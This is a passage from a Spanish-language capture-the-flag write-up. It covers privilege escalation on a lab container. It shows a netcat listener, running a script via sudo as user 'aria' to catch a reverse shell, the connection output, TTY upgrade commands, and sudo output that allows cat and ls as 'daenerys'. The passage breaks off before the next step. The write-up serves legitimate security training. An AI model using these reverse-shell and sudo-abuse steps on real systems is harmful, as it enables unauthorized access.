 Lo guardamos y ejecutamos lo siguiente:

En nuestro `host` nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora ejecutamos en la maquina victima lo siguiente:

```shell
sudo -u aria python3 /home/jon/.mensaje.py
```

Una vez ejecutado eso, veremos lo siguiente si nos vamos a nuestra escucha:

```
listening on [any] 7777 ...
connect to [192.168.120.128] from (UNKNOWN) [172.17.0.2] 41662
aria@83214cba54c7:/home/jon$ 
```

Vemos que hemos obtenido la shell como el usuario `aria`.

## Escalate user daenerys

### Sanitización la shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for aria on 83214cba54c7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User aria may run the following commands on 83214cba54c7:
    (daenerys) NOPASSWD: /usr/bin/cat, /usr/bin/ls
```

Vemos que podemos ejecutar `cat` y `ls` como el usuario `daenerys`, por lo que haremos lo siguiente:
